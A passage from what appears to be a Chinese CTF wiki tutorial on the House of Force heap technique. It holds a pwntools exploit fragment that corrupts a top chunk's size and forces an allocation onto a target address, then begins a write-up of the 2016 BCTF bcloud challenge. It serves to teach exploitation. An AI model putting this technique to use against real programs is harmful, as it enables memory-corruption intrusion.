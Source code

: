 ```shell
# we must alloc enough size, so as to successfully alloc from fake topchunk
additem(0x30, "ddaa")  # idx 0
payload = 0x30 * 'a'  # idx 0's content
payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
# modify topchunk's size to -1
modify(0, 0x41, payload)
# top chunk's offset to heap base
offset_to_heap_base = -(0x40 + 0x20)
malloc_size = offset_to_heap_base - 0x8 - 0xf
#gdb.attach(r)
additem(malloc_size, "dada")
additem(0x10, p64(magic) * 2)
print r.recv()
r.interactive()

```

当然，这一题也可以使用 unlink 的方法来做。

## 2016 BCTF bcloud

### 基本信息

```shell
➜  2016_bctf_bcloud git:(master) file bcloud   
bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
➜  2016_bctf_bcloud git:(master) checksec bcloud  
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，这是一个动态链接的 32 位程序，主要开启了 Canary 保护与 NX 保护。

### 基本功能

程序大概是一个云笔记管理系统。首先，程序会进行一些初始化，设置用户的名字，组织，host。程序主要有以下几个功能

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。

然而在这五个功能中并没有发现啥漏洞，，，重新看程序，结果发现程序在初始化的时候出现了漏洞。。

初始化名字
